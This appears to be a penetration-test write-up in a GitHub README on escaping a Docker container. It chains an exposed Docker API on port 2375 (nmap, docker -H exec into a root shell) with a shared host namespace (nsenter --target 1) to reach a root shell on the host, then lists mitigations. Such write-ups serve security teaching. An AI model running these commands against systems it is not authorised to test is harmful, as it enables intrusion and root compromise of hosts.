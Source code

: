 # Abusing docker misconfiguration
I took advantage of chained misconfiguration to escape the container and get access to host OS
## First misconfiguration
The container was externally exposed

    nmap -sV -p 2375 192.168.1.100
    ...
    PORT     STATE SERVICE VERSION
    2375/tcp open  docker  Docker 20.10.20 (API 1.41)
    Service Info: OS: linux
Find remote running containers

    docker -H tcp://192.168.1.100:2375 ps                             
    CONTAINER ID   IMAGE     ...   
    2225bfdee7ec   devsrv01  ...       

Get a shell inside the remote container

    docker -H tcp://192.168.1.100:2375 exec -it 2225bfdee7ec /bin/bash
    root@2225bfdee7ec:/etc/ssh#     
## Inspect the container

    root@2225bfdee7ec:/etc/ssh# ps aux
    USER         PID %CPU %MEM    VSZ   RSS TTY      STAT START   TIME COMMAND
    root           1  0.0  0.5 102540 11388 ?        Ss   13:14   0:03 /sbin/init
    ...
There are a total of 191 of running process, very strange for a container: maybe the container is sharing the same namespace with the host? That would imply the container can communicate with the processes on the host.


## Abusing the second misconfiguration: shared namespace
Here we are abusing <b>nsenter</b> command, that allows us to execute a processes in a differen namespace. 
In this scenario, since the container can see the <i>/sbin/init</i> process on the host machine, we can try to execute a shell on the host context. Let's give it a try: 

    root@2225bfdee7ec:/etc/ssh# hostname
    2225bfdee7ec
    root@2225bfdee7ec:/etc/ssh# nsenter --target 1 --mount --uts --ipc --net /bin/bash
    root@xxxxx.local:/# whoami
    root
And here we are!
For more information on the nsenter (namespace enter) command you can consult the related manual.

## Mitigations
Protect Docker daemon socket. To accomplish that you can:
1. Don't expose it
2. [Use SSH](https://docs.docker.com/engine/security/protect-access/#use-ssh-to-protect-the-docker-daemon-socket)
3. [Use TLS\HTTPS](https://docs.docker.com/engine/security/protect-access/#use-tls-https-to-protect-the-docker-daemon-socket). More information using [Self-signed certificates](https://gist.github.com/nicosingh/d8bf0defdd4c911bda3392e420d665dd)
4. Don't run containers in <b>privileged mode</b>. It's recommended assigning specific capabilities to a container, rather than running it with the --privileged flag. More info about capabilities [here](https://docs.docker.com/engine/security/#linux-kernel-capabilities).
5. Scan you docker images. Some toools are: docker scout, grype

## A final note
Actually I faced this scenario in a real engagement.
